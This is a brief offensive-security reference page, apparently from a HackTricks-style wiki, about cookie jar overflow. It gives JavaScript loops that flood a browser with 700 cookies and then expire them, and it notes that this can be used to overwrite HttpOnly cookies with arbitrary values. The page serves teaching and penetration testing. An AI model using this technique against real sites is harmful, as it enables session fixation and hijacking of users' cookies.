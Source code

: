 Browsers have a limit on the number of cookies they can store for a page. This allows you to supplant cookies by adding new ones:

```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
    document.cookie = `cookie${i}=${i}; Secure`;
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
    document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;
}
```

{% hint style="info" %}
Third-party cookies pointing to a different domain will not be overwritten
{% endhint %}

Cookie jar overflow can be used for overwrite `HttpOnly` cookies, so you can remove them and reset with an arbitrary value.

# References

- [HackTricks: Cookie Jar Overflow](https://book.hacktricks.xyz/pentesting-web/hacking-with-cookies/cookie-jar-overflow)
- [Overwriting HttpOnly cookies using cookie jar overflow](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/)
